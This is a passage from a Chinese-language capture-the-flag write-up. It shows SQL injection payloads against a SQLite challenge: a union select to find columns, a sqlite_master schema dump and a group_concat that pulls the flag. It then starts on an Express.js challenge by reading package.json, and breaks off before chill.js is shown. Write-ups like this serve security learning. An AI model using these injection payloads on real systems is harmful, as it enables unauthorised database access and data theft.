 
而且他的 DB 是 `SQLite`

![](https://i.imgur.com/L41ty7G.png)

用 `union select` 測出總欄位數量及回顯欄位：`' or 1=1 union select 1,2,3 limit 0,1///***`
要注意的是 `LIMIT 0,1` 有時候你的 result 不會在第一個 row ，回顯結果會是 `root`，賽中害我卡超久幹

![](https://i.imgur.com/40vZWP6.png)

去 `sql_master` 撈所有的 Table Schema，得到所有的表名及欄位名稱：`select group_concat(sql) from sqlite_master where type='table'`

![](https://i.imgur.com/AJkOCWH.png)

花點時間找後就會發現 flag 在 `garbage` 裡頭：`select group_concat(value) from garbage`

![](https://i.imgur.com/C3fhAqS.png)

### Rhino

https://rhino.ais3.org/

![](https://i.imgur.com/wpmIz2I.png)

觀察 `robots.txt` 發現我們要的 `flag.txt` 就在網站的根目錄
直接讀 `flag.txt` 發現會被擋下來

![](https://i.imgur.com/VLIi0Gg.png)

![](https://i.imgur.com/qNPnsyz.png)

題目是用 `express.js` ，可以讀得到 `package.json`，並可以發現 `chill.js` 的存在

* `package.json`
```json
{
  "name": "app",
  "version": "1.0.0",
  "description": "",
  "scripts": {
    "start": "node chill.js",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "djosix",
  "license": "ISC",
  "dependencies": {
    "cookie-session": "^1.4.0",
    "express": "^4.17.1"
  }
}
```

* `chill.js`
